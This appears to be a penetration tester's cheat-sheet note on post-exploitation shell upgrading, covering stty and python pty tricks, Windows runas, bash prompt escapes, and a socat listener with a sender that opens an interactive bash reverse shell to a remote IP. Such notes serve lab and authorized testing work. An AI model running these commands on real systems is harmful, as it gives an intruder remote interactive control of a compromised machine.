 ```yaml
---
tags:
  - Post-Exploitation
---
```

Upgrading a shell allows for command history and key bindings

# Guide

1. `cat /etc/shells` to see all the shells on the system
# Walkthrough 

1. [How to Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
2. [Upgrade Simple Shells to Fully Interactive TTYs | 0xffsec Handbook](https://0xffsec.com/handbook/shells/full-tty/)

# Windows

By using the `runas` command, you can temporarily switch to a different user account that has more permissions, such as an administrator or root account. This can give you access to additional commands and resources that may not be available with your current shell.

To upgrade your shell using the `runas` command, simply specify the user account you want to switch to and the command you want to run. For example, you could run `runas /user:administrator cmd` to open a new command prompt window with administrator privileges.

# Linux 
# stty

Press `cntrl-z`

```sh
stty raw -echo && fg
```

```
reset
```
# Python

```
python -c 'import pty; pty.spawn("/bin/bash")'
```


# Bash 

## Notes

Special Bash characters which can return some information regarding the operating system.

|**Special Character**|**Description**|
|---|---|
|`\d`|Date (Mon Feb 6)|
|`\D{%Y-%m-%d}`|Date (YYYY-MM-DD)|
|`\H`|Full hostname|
|`\j`|Number of jobs managed by the shell|
|`\n`|Newline|
|`\r`|Carriage return|
|`\s`|Name of the shell|
|`\t`|Current time 24-hour (HH:MM:SS)|
|`\T`|Current time 12-hour (HH:MM:SS)|
|`\@`|Current time|
|`\u`|Current username|
|`\w`|Full path of the current working directory|
## Example 

```
/bin/bash -i
```

# SoCat

Listener

```
sudo socat file:`tty`,raw,echo=0 tcp-listen:445
```

Sender

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.118.8:445
```